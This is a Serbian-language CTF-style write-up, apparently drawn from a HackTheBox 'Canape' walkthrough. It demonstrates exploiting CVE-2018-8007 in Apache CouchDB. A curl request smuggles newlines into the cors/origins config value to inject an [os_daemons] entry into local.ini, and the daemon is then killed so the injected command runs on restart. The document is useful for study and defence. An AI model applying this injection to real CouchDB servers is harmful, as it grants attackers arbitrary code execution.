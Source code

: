 ### **Iskorišćavanje CVE-2018-8007 putem izmene local.ini**

Primer [odavde](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

Istražena je nedavno otkrivena ranjivost, CVE-2018-8007, koja utiče na Apache CouchDB, otkrivajući da za eksploataciju treba imati dozvole za pisanje u datoteku `local.ini`. Iako se to direktno ne može primeniti na ciljni sistem zbog sigurnosnih ograničenja, izvršene su izmene kako bi se omogućio pristup pisanju u datoteku `local.ini` u svrhu istraživanja. Detaljni koraci i primeri koda su navedeni u nastavku, prikazujući proces.

Prvo, okruženje se priprema tako što se osigura da je datoteka `local.ini` za pisanje, što se proverava listanjem dozvola:

```bash
root@canape:/home/homer/etc# ls -l
-r--r--r-- 1 homer homer 18477 Jan 20  2018 default.ini
-rw-rw-rw- 1 homer homer  4841 Sep 14 17:39 local.ini
-r--r--r-- 1 root  root   4841 Sep 14 14:30 local.ini.bk
-r--r--r-- 1 homer homer  1345 Jan 14  2018 vm.args
```

Da bi se iskoristila ranjivost, izvršava se curl komanda koja cilja konfiguraciju `cors/origins` u `local.ini` fajlu. Ovo ubacuje novi izvor zajedno sa dodatnim komandama pod sekcijom `[os_daemons]`, sa ciljem izvršavanja proizvoljnog koda:

```bash
www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/cors/origins' -H "Accept: application/json" -H "Content-Type: application/json" -d "0xdf\n\n[os_daemons]\ntestdaemon = /usr/bin/touch /tmp/0xdf"
```

Naknadna verifikacija pokazuje ubačenu konfiguraciju u `local.ini`, upoređujući je sa rezervnom kopijom kako bi se istakle promene:

```bash
root@canape:/home/homer/etc# diff local.ini local.ini.bk
119,124d118
< [cors]
< origins = 0xdf
< [os_daemons]
< test_daemon = /usr/bin/touch /tmp/0xdf
```

Prvo, očekivani fajl (`/tmp/0xdf`) ne postoji, što ukazuje da ubačena komanda još uvek nije izvršena. Dalje istraživanje otkriva da su pokrenuti procesi povezani sa CouchDB-om, uključujući i jedan koji potencijalno može izvršiti ubačenu komandu:

```bash
root@canape:/home/homer/bin# ps aux | grep couch
```

Prekidanjem identifikovanog CouchDB procesa i omogućavanjem automatskog ponovnog pokretanja sistema, pokreće se izvršavanje ubačene komande, što potvrđuje postojanje prethodno nedostajuće datoteke:

```bash
root@canape:/home/homer/etc# kill 711
root@canape:/home/homer/etc# ls /tmp/0xdf
/tmp/0xdf
```
